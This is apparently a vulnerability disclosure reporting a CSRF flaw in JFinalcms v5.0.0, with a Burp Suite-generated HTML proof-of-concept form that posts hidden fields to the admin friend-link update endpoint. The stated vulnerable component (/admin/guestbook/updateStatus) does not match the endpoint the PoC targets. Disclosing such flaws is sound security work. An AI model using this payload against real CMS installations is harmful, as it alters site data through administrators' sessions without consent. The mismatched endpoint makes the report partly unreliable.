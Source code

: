 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/guestbook/updateStatus

![图片](https://github.com/cui2shark/cms/assets/52313275/8ed0291f-32af-4b2e-ba51-9b8a117ea1c3)

create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/14e122a5-e249-489f-8d1c-8394c337e81a)

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/friend_link/update" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="gid" value="1" />
      <input type="hidden" name="name" value="cs123" />
      <input type="hidden" name="logo" value="" />
      <input type="hidden" name="file" value="" />
      <input type="hidden" name="url" value="cs" />
      <input type="hidden" name="sort" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/07e36fe8-babd-4123-bf90-7d12ce9085d3)
